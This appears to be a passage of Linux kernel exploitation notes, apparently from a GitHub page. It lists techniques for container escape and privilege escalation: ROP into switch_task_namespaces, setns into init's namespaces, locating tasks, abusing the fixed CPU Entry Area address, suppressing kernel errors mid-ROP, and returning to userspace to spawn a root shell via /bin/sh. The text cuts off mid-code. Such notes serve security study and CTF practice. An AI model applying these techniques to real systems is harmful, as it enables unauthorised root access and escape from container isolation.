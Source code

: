 - ROP do `switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)`

- Return to userspace and switch to root ns by

    ```c
    setns(open("/proc/1/ns/mnt", O_RDONLY), 0);
    setns(open("/proc/1/ns/pid", O_RDONLY), 0);
    setns(open("/proc/1/ns/net", O_RDONLY), 0);
    ```

Find target task

1. `prctl(PR_SET_NAME)` changes the process name to a unique ID.

2. Start iterating through the `struct task` linked list from `&init_task` and compare each task's name with the unique ID.

Fixed kernel address

- Before Linux v6.1, the kernel address of the CEA (CPU Entry Area) was fixed at `0xfffffe0000000000`, making it possible to place the exploit payload there by triggering an exception.

Bypass error during ROP

- "Illegal context switch in RCU read-side critical section"
    - Set `current->rcu_read_lock_nesting = 0`.

- "BUG: scheduling while atomic: ..."
    - Set `oops_in_progress=1`, making  `__schedule_bug()` return safely.

ROP return to userspace

- Use trampoline `swapgs_restore_regs_and_return_to_usermode()`. (renamed to `common_interrupt_return()` now)

- When executing `iretq`, the stack layout should be (from top to bottom):  rip, cs, rflags, rsp and ss.

- Process calls helper to save state before exploiting.
    ```c
    unsigned long user_cs, user_ss, user_rsp, user_rflags;

    void win()
    {
        execl("/bin/sh", "sh", (char *)NULL);
    }

    void save_state()
    {
        __asm__(
            ".intel_syntax noprefix;"
            "mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_rsp, rsp;"
            "pushf;"
            "pop user_rflags;"
            ".att_syntax;"
        );
        /*
        rop[i++] = common_interrupt_return + <offset>; // old name: swapgs_restore_regs_and_return_to_usermode
        